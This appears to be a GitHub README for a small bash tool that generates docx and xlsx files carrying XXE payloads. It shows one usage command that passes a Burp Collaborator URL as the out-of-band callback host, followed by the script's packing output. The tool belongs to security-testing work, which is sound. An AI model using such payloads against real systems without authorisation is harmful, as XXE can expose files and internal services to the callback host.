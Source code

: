 # OpenXML-XXE-Generator
A small bash script to automate the generation of docx and xlsx XXE payloads.

## Usage
1. The first argument must be either Docx or Xlsx - case sensitive
2. The second argument is the location you'd like to receive an OOB hit to. Usually a burp collaborator server

```
╰─○ ./gen.sh Docx http://vutfzqoyrwfkhrqnlt0eeth0iromcb.burpcollaborator.net
[+] Created tmp folder - /tmp/tmp.DkjNdfWwOf
[+] Copying files to tmp folder
[+] Replacing vars
[+] Creating document
  adding: tmp/tmp.DkjNdfWwOf/Docx/_rels/.rels (deflated 54%)
  adding: tmp/tmp.DkjNdfWwOf/Docx/word/settings.xml (deflated 62%)
  adding: tmp/tmp.DkjNdfWwOf/Docx/word/_rels/document.xml.rels (deflated 65%)
  adding: tmp/tmp.DkjNdfWwOf/Docx/word/styles.xml (deflated 90%)
  adding: tmp/tmp.DkjNdfWwOf/Docx/word/theme/theme1.xml (deflated 79%)
  adding: tmp/tmp.DkjNdfWwOf/Docx/word/fontTable.xml (deflated 65%)
  adding: tmp/tmp.DkjNdfWwOf/Docx/word/document.xml (deflated 71%)
  adding: tmp/tmp.DkjNdfWwOf/Docx/word/webSettings.xml (deflated 50%)
  adding: tmp/tmp.DkjNdfWwOf/Docx/[Content_Types].xml (deflated 69%)
  adding: tmp/tmp.DkjNdfWwOf/Docx/docProps/app.xml (deflated 45%)
  adding: tmp/tmp.DkjNdfWwOf/Docx/docProps/core.xml (deflated 46%)
[+] Document created at /tmp/tmp.DkjNdfWwOf/payload.docx
```

